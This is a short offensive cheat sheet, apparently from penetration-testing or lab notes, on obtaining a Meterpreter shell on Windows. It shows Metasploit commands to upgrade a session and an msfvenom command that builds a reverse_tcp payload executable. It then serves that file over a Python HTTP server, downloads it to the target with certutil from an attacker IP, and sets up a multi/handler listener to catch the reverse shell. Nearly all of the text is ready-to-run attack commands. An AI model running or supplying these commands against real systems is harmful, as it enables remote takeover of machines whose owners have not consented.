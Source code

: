 ### METHOD 1:

#### SPAWNING A METERPRETER SHELL

1. Background the current session.
2. Then load the following module

```
use post/multi/manage/shell_to_meterpreter
set SESSION 1
set LHOST 10.10.10.10
run
```

3. OR you can use a single command

```
sessions -u "SESSION ID"
```
#### METHOD 2:

```
#Generating Meterpreter revrse tcp payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.12.2 LPORT=1234   -f exe > meterpreter.exe
```

```
#Hosting Local HTTP server
python3 -m http.server 80
```

```
#Downloading payload to target
certutil -urlcache -f http://10.10.12.2/meterpreter.exe meterpreter.exe
```

#### SETTING UP LISTENER:

```
use multi/handler
set LHOST 10.10.12.2
set LPORT 1234
set payload windows/meterpreter/reverse_tcp
run
```
